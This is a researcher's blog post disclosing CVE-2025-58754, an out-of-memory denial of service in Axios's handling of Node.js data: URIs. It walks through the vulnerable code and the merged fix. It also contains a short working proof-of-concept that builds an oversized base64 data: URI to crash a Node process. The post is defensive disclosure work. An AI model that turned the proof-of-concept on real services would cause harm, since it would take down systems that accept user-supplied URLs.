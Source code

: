 +++
title = "OOM/DoS Vulnerability in Axios (CVE-2025-58754)"
date = "2025-09-11"
draft = false
+++

### What is Axios?

[Axios](https://github.com/axios/axios) is a **promise-based HTTP client** for Node.js and browsers. It’s one of the most popular libraries in the JavaScript ecosystem, powering countless apps, frameworks, and services.

Because of its huge install base security research here particularly impactful.

### How It Started

2 weeks ago while working on a personal project, I've planned to use **Axios**, a library I've relied on many times before.
At that moment I realized that although I've had good success in bug bounty hunting, I never had a CVE in a serious, widely used open-source project.
That thought motivated me to dive into Axios and look for issues.
I started my research by reading old CVEs and GitHub issues related to it. This helped me understand the kind of problems that had been discovered before and where weaknesses might exist. With that context I began auditing specific areas of the codebase.

That's when I uncovered an **Out-of-Memory Denial-of-Service (OOM/DoS)** issue, which has now been assigned **CVE-2025-58754**.

### Summary of the Vulnerability

When Axios runs on Node.js and is given a `data:` URL it doesn’t perform an HTTP request. Instead, it decodes the payload into memory (`Buffer`/`Blob`) and returns a fake `200 OK` response.

unlike HTTP responses this path ignores `maxContentLength` and `maxBodyLength`.
which means an attacker can provide a **very large `data:` URI** and cause Axios to allocate unbounded memory leading to an **OOM crash**.

This happens even if the caller requested `responseType: 'stream'`.

### Technical Details

The vulnerable logic lives in the Node.js adapter (`lib/adapters/http.js`):

```js
if (protocol === 'data:') {
  convertedData = fromDataURI(config.url, responseType === 'blob', {
    Blob: config.env && config.env.Blob
  });
  return settle(resolve, reject, { data: convertedData, status: 200, ... });
}
```
Where I found the `fromDataURI()` decoder function

The decoder (`lib/helpers/fromDataURI.js`) turns the full Base64 payload into a `Buffer` without size checks:

```js
const buffer = Buffer.from(decodeURIComponent(body), isBase64 ? 'base64' : 'utf8');
```

Unlike HTTP where response size is enforced via `maxContentLength` / `maxBodyLength`, this code path never checks limits even if the developer enforced them.

Result: A single oversized `data:` URI can **crash the Node.js process**.

### Proof-of-Concept

```js
const axios = require('axios');

async function main() {
  const base64Size = 160_000_000; // ~120 MB decoded
  const base64 = 'A'.repeat(base64Size);
  const uri = 'data:application/octet-stream;base64,' + base64;

  const response = await axios.get(uri, { responseType: 'arraybuffer' });
  console.log('Received bytes:', response.data.length);
}

main();
```

Run with limited heap:

```bash
node --max-old-space-size=100 poc.js
```

Node crashes with “heap out of memory”.

```
<--- Last few GCs --->
…
FATAL ERROR: Reached heap limit Allocation failed - JavaScript heap out of memory
1: 0x… node::Abort() …
```


### The Fix I Contributed

After triaging the issue I decided not to wait for the maintainers to fix it, but to write the fix myself and open a **[pull request](https://github.com/axios/axios/commit/945435fc51467303768202250debb8d4ae892593)** to Axios.

The fix ensures Axios now **respects `maxContentLength` when handling `data:` URIs** the same way it does for HTTP responses.
To avoid unbounded allocations I have added a helper that can **estimate the decoded size of a `data:` URI without allocating huge Buffers**.

The maintainers reviewed my patch and it was merged into Axios — released officially in **v1.12.0**.
{{< figure src="/images/release.jpg" alt="Axios OOM DoS" width="400px" class="center" >}}


#### `http.js` adapter

```js
import estimateDataURLDecodedBytes from '../helpers/estimateDataURLDecodedBytes.js';

if (protocol === 'data:') {
  // Apply the same semantics as HTTP: only enforce if a finite, non-negative cap is set.
  if (config.maxContentLength > -1) {
    // Use the exact string passed to fromDataURI (config.url); fall back to fullPath if needed.
    const dataUrl = String(config.url || fullPath || '');
    const estimated = estimateDataURLDecodedBytes(dataUrl);

    if (estimated > config.maxContentLength) {
      return reject(new AxiosError(
        'maxContentLength size of ' + config.maxContentLength + ' exceeded',
        AxiosError.ERR_BAD_RESPONSE,
        config
      ));
    }
  }
```

#### `estimateDataURLDecodedBytes.js`

```js
/**
 * Estimate decoded byte length of a data:// URL *without* allocating large buffers.
 * - For base64: compute exact decoded size using length and padding;
 *               handle %XX at the character-count level (no string allocation).
 * - For non-base64: use UTF-8 byteLength of the encoded body as a safe upper bound.
 *
 * @param {string} url
 * @returns {number}
 */
export default function estimateDataURLDecodedBytes(url) {
  if (!url || typeof url !== 'string') return 0;
  if (!url.startsWith('data:')) return 0;

  const comma = url.indexOf(',');
  if (comma < 0) return 0;

  const meta = url.slice(5, comma);
  const body = url.slice(comma + 1);
  const isBase64 = /;base64/i.test(meta);

  if (isBase64) {
    let effectiveLen = body.length;
    const len = body.length;

    for (let i = 0; i < len; i++) {
      if (body.charCodeAt(i) === 37 /* '%' */ && i + 2 < len) {
        const a = body.charCodeAt(i + 1);
        const b = body.charCodeAt(i + 2);
        const isHex =
          ((a >= 48 && a <= 57) || (a >= 65 && a <= 70) || (a >= 97 && a <= 102)) &&
          ((b >= 48 && b <= 57) || (b >= 65 && b <= 70) || (b >= 97 && b <= 102));

        if (isHex) {
          effectiveLen -= 2;
          i += 2;
        }
      }
    }

    let pad = 0;
    let idx = len - 1;

    const tailIsPct3D = (j) =>
      j >= 2 &&
      body.charCodeAt(j - 2) === 37 && // '%'
      body.charCodeAt(j - 1) === 51 && // '3'
      (body.charCodeAt(j) === 68 || body.charCodeAt(j) === 100); // 'D' or 'd'

    if (idx >= 0) {
      if (body.charCodeAt(idx) === 61 /* '=' */) {
        pad++;
        idx--;
      } else if (tailIsPct3D(idx)) {
        pad++;
        idx -= 3;
      }
    }

    if (pad === 1 && idx >= 0) {
      if (body.charCodeAt(idx) === 61 /* '=' */) {
        pad++;
      } else if (tailIsPct3D(idx)) {
        pad++;
      }
    }

    const groups = Math.floor(effectiveLen / 4);
    const bytes = groups * 3 - (pad || 0);
    return bytes > 0 ? bytes : 0;
  }

  return Buffer.byteLength(body, 'utf8');
}
```

This patch introduces a **safe way to estimate decoded size** of `data:` URIs.
If the estimated size exceeds `maxContentLength`, Axios now **rejects the request safely** instead of crashing Node.


### Final Thoughts
What began as curiosity on a weekend turned into a vulnerability discovery and a published **CVE in one of the most widely used Node.js libraries with 67,041,401 weekly downloads**.
This was not just about finding a bug, it was about contributing back to opensource community and helping the ecosystem stay secure.

---

#### Timeline

* **31 Aug** → Vulnerability reported
* **2 Sep** → Maintainers triaged the report
* **9 Sep** → CVE assigned (`CVE-2025-58754`)
* **9 Sep** → Submitted PR with fix → reviewed & merged
* **11 Sep** → Patch released in **Axios v1.12.0** and CVE published

#### Acknowledgments

* Thanks to **Jaay Saayman** for working with me directly through the process.
* Thanks to **Dmitriy Mozgovoy** for reviewing my PR.
* And props to **GitHub Security** for the quick CVE assignment.

#### Advisory & Upgrade

* CVE: [CVE-2025-58754 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58754)
* GitHub Advisory: [GHSA-4hjh-wcwx-xvwj](https://github.com/axios/axios/security/advisories/GHSA-4hjh-wcwx-xvwj)
* **All Axios versions < 1.12.0 are vulnerable.**
